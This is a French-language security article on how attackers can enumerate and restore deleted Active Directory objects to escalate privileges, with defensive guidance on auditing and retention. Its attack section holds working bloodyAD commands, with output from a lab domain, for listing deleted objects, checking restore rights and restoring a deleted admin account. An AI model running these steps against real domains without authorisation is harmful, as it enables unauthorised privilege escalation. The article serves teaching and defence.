

_"As-tu pensé à regarder dans la poubelle ?"_

C’est une phrase que beaucoup d’entre nous ont entendue en grandissant — généralement après avoir cherché quelque chose qui était juste sous notre nez. Dans le monde de la cybersécurité, ce conseil n’a jamais été aussi vrai, surtout en ce qui concerne Active Directory.

La Corbeille Active Directory est souvent considérée comme un filet de sécurité — un endroit où les objets supprimés attendent avant leur suppression définitive. Mais pour les attaquants, cela peut être un véritable trésor. Les utilisateurs, groupes et autres objets supprimés peuvent encore conserver des attributs critiques pouvant être exploités pour une élévation de privilèges, des mouvements latéraux ou de la persistance.

Dans cet article, nous allons explorer le fonctionnement de la Corbeille AD, comment les attaquants peuvent l’exploiter pour obtenir des accès élevés, et comment les défenseurs peuvent détecter et diminuer ces risques avant qu’ils ne deviennent des menaces réelles.

## Comprendre la Corbeille Active Directory

La [Corbeille Active Directory](https://learn.microsoft.com/fr-fr/windows-server/identity/ad-ds/get-started/adac/active-directory-recycle-bin?tabs=adac) a été introduite avec Windows Server 2008 R2 pour faciliter et sécuriser la récupération d’objets. Cette fonctionnalité doit être activée explicitement et est irréversible une fois en place. Lorsqu’un objet (comme un utilisateur ou un groupe) est supprimé, il n’est pas immédiatement effacé : il est marqué comme « supprimé » et déplacé dans un conteneur caché. Cela préserve tous les attributs comme les appartenances aux groupes, les permissions et l’historique SID, permettant une restauration en un clic si besoin.

[Les objets supprimés](https://learn.microsoft.com/fr-fr/openspecs/windows_protocols/ms-adts/b645c125-a7da-4097-84a1-2fa7cea07714#gt_d9c9e99f-74f1-483e-bcb1-310e75ff1344) ont une durée de rétention par défaut de 180 jours, définie dans l’objet _Directory Service_ (`CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=example,DC=com`) via l’attribut [tombstoneLifetime](https://learn.microsoft.com/fr-fr/openspecs/windows_protocols/ms-adts/1887de08-2a9e-4694-95e2-898cde411180), sauf si _msDS-DeletedObjectLifetime_ le remplace. Si aucun de ces attributs n’est défini, la rétention est de 60 jours (Windows 2000–2008 Server) ou seulement 2 jours pour 2008 R2 et ultérieur.  
Une fois la rétention expirée, les _objets supprimés_ deviennent recyclés et leur attribut _isRecycled_ passe à `TRUE`. Dans cet état, l’objet ne contient plus que certains attributs et ne peut être restauré qu’avec des outils interagissant directement avec les sauvegardes instantanées de l'AD. Cet état indique aux autres contrôleurs de domaine, lors de la réplication, que l’objet est supprimé.

")

Si la Corbeille n’est pas activée ou si le serveur est antérieur à 2008 R2, les objets sont _tombstoned_ au lieu d’être _deleted_. Les objets tombstoned ressemblent aux objets recyclés mais sont restaurables. Cependant, ils sont dépouillés de la plupart de leurs attributs, ne conservant que leur _ObjectSID_, _nTSecurityDescriptor_ (pour que les ACL liées restent intactes) et, depuis Windows 2003, leur [_sIDHistory_](https://learn.microsoft.com/fr-fr/troubleshoot/windows-server/active-directory/retore-deleted-accounts-and-groups-in-ad#how-to-manually-undelete-objects-in-a-deleted-objects-container), mais perdent toutes leurs appartenances aux groupes.

Cependant, cette fonctionnalité bien pratique a un coût caché. Beaucoup d’organisations pensent que les objets supprimés sont inoffensifs, mais ils peuvent toujours être interrogés, restaurés, voire exploités s’ils ne sont pas correctement gérés.

**Points clés :**
- Les objets supprimés conservent tous leurs attributs (y compris les attributs sensibles)
- Les objets tombstoned conservent les attributs les plus importants
- Ils sont stockés dans le conteneur `CN=Deleted Objects`
- Ils peuvent être restaurés avec tous leurs privilèges s’ils ne sont pas recyclés ou supprimés définitivement

## Vecteurs d’attaque

Un attaquant ayant un accès en lecture à l'AD peut énumérer les objets supprimés et rechercher des opportunités d’élévation de privilèges. Exemples :

- **Abus de l’historique SID :** Les objets supprimés/tombstoned peuvent conserver un historique SID leur donnant des droits sur des objets privilégiés.
- **Appartenances aux groupes :** Restaurer un objet supprimé peut réactiver l’accès à des ressources sensibles, car il retrouve toutes ses appartenances.
- **ACL et délégations :** Les objets supprimés/tombstoned peuvent encore être référencés dans des ACL ou avoir des délégations Kerberos, permettant un accès ou contrôle indirect.
- **Informations sensibles :** Les objets supprimés peuvent contenir des informations sensibles comme des mots de passe en clair dans les champs `description`, `info` ou des attributs personnalisés.

Il existe bien d’autres possibilités d'exploitation (GPO, OU, etc.), souvent ignorées lors des audits classiques, faisant de la Corbeille une surface d’attaque idéale.

## Prérequis

Pour lister les objets supprimés, le principal doit avoir le droit `LIST_CHILD` sur le conteneur _Deleted Objects_ et utiliser le contrôle LDAP spécial OID `1.2.840.113556.1.4.2064` (affiche supprimés, tombstoned et recyclés) :

```powershell
# Lister les objets supprimés avec bloodyAD
$ bloodyAD -u Administrator -d bloody -p 'Password123!' --host 192.168.100.3 get search -c 1.2.840.113556.1.4.2064 --resolve-sd --attr ntsecuritydescriptor --base 'CN=Deleted Objects,DC=bloody,DC=corp' --filter "(objectClass=container)"

distinguishedName: CN=Deleted Objects,DC=bloody,DC=corp
[...]
nTSecurityDescriptor.ACL.0.Type: == ALLOWED ==
nTSecurityDescriptor.ACL.0.Trustee: john
nTSecurityDescriptor.ACL.0.Right: LIST_CHILD
nTSecurityDescriptor.ACL.0.ObjectType: Self
[...]

$ bloodyAD -u john -d bloody -p 'Password123!' --host 192.168.100.3 get search -c 1.2.840.113556.1.4.2064 --filter '(isDeleted=TRUE)' --attr name

distinguishedName: CN=test_pc\0ADEL:db0e6105-73a0-44e6-b9ad-a546af714ae5,CN=Deleted Objects,DC=bloody,DC=corp
name: test_pc
DEL:db0e6105-73a0-44e6-b9ad-a546af714ae5

distinguishedName: CN=test_pc2\0ADEL:c535b0ea-c822-4920-9452-292824d1f091,CN=Deleted Objects,DC=bloody,DC=corp
name: test_pc2
DEL:c535b0ea-c822-4920-9452-292824d1f091

distinguishedName: CN=test_pc3\0ADEL:c9e8a129-f77f-4159-b700-3c8fd06963fe,CN=Deleted Objects,DC=bloody,DC=corp
name: test_pc3
DEL:c9e8a129-f77f-4159-b700-3c8fd06963fe
[...]
```

Pour restaurer des objets, le principal doit avoir :
- Le droit **Restore Tombstoned** sur l’objet domaine
- Le droit **Generic Write** sur l’objet supprimé
- Le droit **Create Child** sur l’OU utilisée pour la restauration  
  (Astuce : vous pouvez utiliser `--newParent` avec bloodyAD pour cibler une OU où vous avez ce droit)

```powershell
# Vérifier les droits de restauration
$ bloodyAD --host 192.168.100.3 -d bloody -u john -p 'Password123!' get object 'DC=bloody,DC=corp' --attr ntsecuritydescriptor --resolve-sd                   

distinguishedName: DC=bloody,DC=corp
[...]
nTSecurityDescriptor.ACL.4.Type: == ALLOWED_OBJECT ==
nTSecurityDescriptor.ACL.4.Trustee: john
nTSecurityDescriptor.ACL.4.Right: CONTROL_ACCESS
nTSecurityDescriptor.ACL.4.ObjectType: Reanimate-Tombstones
[..]

$ bloodyAD -u john -d bloody -p 'Password123!' --host 192.168.100.3 get search -c 1.2.840.113556.1.4.2064 --filter '(&(isDeleted=TRUE)(sAMAccountName=test_pc3$))' --attr ntsecuritydescriptor --resolve-sd

distinguishedName: CN=test_pc3\0ADEL:c9e8a129-f77f-4159-b700-3c8fd06963fe,CN=Deleted Objects,DC=bloody,DC=corp
nTSecurityDescriptor.Owner: Domain Admins
nTSecurityDescriptor.Control: DACL_PRESENT|SELF_RELATIVE
[...]
nTSecurityDescriptor.ACL.28.Type: == ALLOWED ==
nTSecurityDescriptor.ACL.28.Trustee: john
nTSecurityDescriptor.ACL.28.Right: GENERIC_ALL
nTSecurityDescriptor.ACL.28.ObjectType: Self
nTSecurityDescriptor.ACL.28.Flags: CONTAINER_INHERIT; INHERITED
[...]

$ bloodyAD --host 192.168.100.3 -d bloody -u john -p 'Password123!' get object 'CN=Users,DC=bloody,DC=corp' --attr ntsecuritydescriptor --resolve-sd

distinguishedName: CN=Users,DC=bloody,DC=corp
nTSecurityDescriptor.Owner: Domain Admins
nTSecurityDescriptor.Control: DACL_AUTO_INHERITED|DACL_PRESENT|SACL_AUTO_INHERITED|SELF_RELATIVE
[...]
nTSecurityDescriptor.ACL.3.Type: == ALLOWED ==
nTSecurityDescriptor.ACL.3.Trustee: john
nTSecurityDescriptor.ACL.3.Right: CREATE_CHILD
nTSecurityDescriptor.ACL.3.ObjectType: Self
nTSecurityDescriptor.ACL.3.Flags: CONTAINER_INHERIT
[...]
```
{}
Par défaut, seuls les Domain Admins peuvent lister et restaurer les objets supprimés.
{}

SharpHound ne récupère pas les objets supprimés même s'il est exécuté en tant que Domain Admin, malgré ce que suggère la documentation ([voir la doc BloodHound](https://bloodhound.specterops.io/collect-data/permissions#granting-access-to-the-deleted-objects-container-optional)).  
BloodHound CE **ne peut donc pas** détecter les opportunités d’élévation de privilèges via les objets supprimés.

## Scénarios réels

Une fois qu’un attaquant s’est assuré d’avoir les droits nécessaires sur un objet supprimé, une OU et le droit **Restore Tombstoned** :

````powershell
$ bloodyAD --host 192.168.100.3 -d bloody -u john -p 'Password123!' get writable --include-del
[...]
distinguishedName: CN=garbage.admin\0ADEL:c9e8a129-f77f-4159-b700-3c8fd06963fe,CN=Deleted Objects,DC=bloody,DC=corp
permission: WRITE
[...]
DistinguishedName: CN=Users,DC=bloody,DC=corp
permission: CREATE_CHILD
````

Il peut alors restaurer l’objet facilement via le sAMAccountName ou l’objectSID :

````powershell
$ bloodyAD -u john -d bloody -p 'Password123!' --host 192.168.100.3 set restore 'S-1-5-21-1394970401-3214794726-2504819329-1104'

[+] S-1-5-21-1394970401-3214794726-2504819329-1104 a été restauré avec succès sous CN=garbage.admin,CN=Users,DC=bloody,DC=corp
````

**Exemples de scénarios :**

- **Scénario 1 : Restauration d’un utilisateur admin supprimé**  
  Un attaquant ayant les droits de restauration ramène un compte admin de domaine supprimé. Comme le compte conserve son SID et ses appartenances aux groupes, il récupère instantanément ses accès privilégiés.

- **Scénario 2 : Injection d’historique SID**  
  Un utilisateur supprimé avec un historique SID privilégié est restauré et utilisé pour contourner les vérifications d’appartenance aux groupes.

- **Scénario 3 : Exploitation d’ACL**  
  Un groupe supprimé est encore référencé dans des ACL sur des ressources critiques. Un attaquant restaure le groupe et s’y ajoute, obtenant ainsi l’accès.

{}
Il existe une machine HTB appelée [TombWatcher](https://www.hackthebox.com/machines/tombwatcher) pour s’entraîner.
{}

## Détection & Défense

Pour se défendre contre ces menaces, les équipes sécurité peuvent :

- **Surveiller les opérations de restauration**  
  Suivre qui restaure des objets et quand. Cela peut se faire via les journaux d’événements et une intégration SIEM.\
  Voici comment utiliser l’événement _A directory service object was undeleted_ (5138) :
  - Avec ou sans la Corbeille activée, assurez-vous que l’audit `Directory Service Changes` est activé :
  ```ps1
  AuditPol /set /subcategory:"Directory Service Changes" /success:enable /failure:enable
  ```
  - Ou via la stratégie de groupe :\
  `Configuration ordinateur > Stratégies > Paramètres Windows > Paramètres de sécurité > Configuration avancée de la stratégie d’audit > Stratégies d’audit > Accès DS  
  Activez l’audit des modifications du service d’annuaire`
  - Le conteneur (ex : CN=Users) ou l’objet domaine doit avoir une SACL qui audite les créations. Utilisez _Utilisateurs et ordinateurs Active Directory_ (ADUC) avec les fonctionnalités avancées activées. Clic droit sur le conteneur → Propriétés → Sécurité → Avancé → Audits et ajoutez une entrée pour auditer la création d’objets enfants (n’oubliez pas d’activer l’héritage pour l’objet domaine)

  Ensuite, vérifiez Observateur d’événements > Journaux Windows > Sécurité > [Événement 5138](https://learn.microsoft.com/fr-fr/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-5138) :

  

- **Nettoyer les attributs sensibles**  
  Avant suppression, retirez les appartenances à des groupes privilégiés et l’historique SID.

- **Ajuster la durée de rétention**  
  La rétention est de 180 jours par défaut et peut être réduite selon la politique de l’entreprise en modifiant un de ces deux attributs :

  ````powershell
  $ bloodyAD -u Administrator -d bloody -p 'Password123!' --host 192.168.100.3 set object 'CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=bloody,DC=corp' tombstoneLifetime -v 60
  [+] CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=bloody,DC=corp tombstoneLifetime mis à jour

  $ bloodyAD -u Administrator -d bloody -p 'Password123!' --host 192.168.100.3 set object 'CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=bloody,DC=corp' msDS-DeletedObjectLifetime -v 30
  [+] CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=bloody,DC=corp msDS-DeletedObjectLifetime mis à jour
  ````

- **Forcer l’état recyclé**  
  L’état recyclé peut être forcé pour les objets sensibles en les supprimant une seconde fois :

  ````powershell
  Get-ADObject -Filter {isDeleted -eq $True -and samaccountname -eq "recycletest"} -IncludeDeletedObjects | Remove-ADObject
  ````

  {}
  Cette fonctionnalité n’est disponible que si la Corbeille est activée.
  {}

- **Limiter les droits de restauration**  
  Seuls les administrateurs de confiance doivent pouvoir restaurer des objets.

## Conclusion

La Corbeille AD est plus qu’une commodité : c’est une surface d’attaque potentielle. En _"regardant dans la poubelle"_, les attaquants peuvent découvrir des chemins d’élévation de privilèges souvent négligés par les défenseurs. Avec un audit, une surveillance et des politiques appropriées, les organisations peuvent transformer ce risque négligé en un risque maîtrisé.
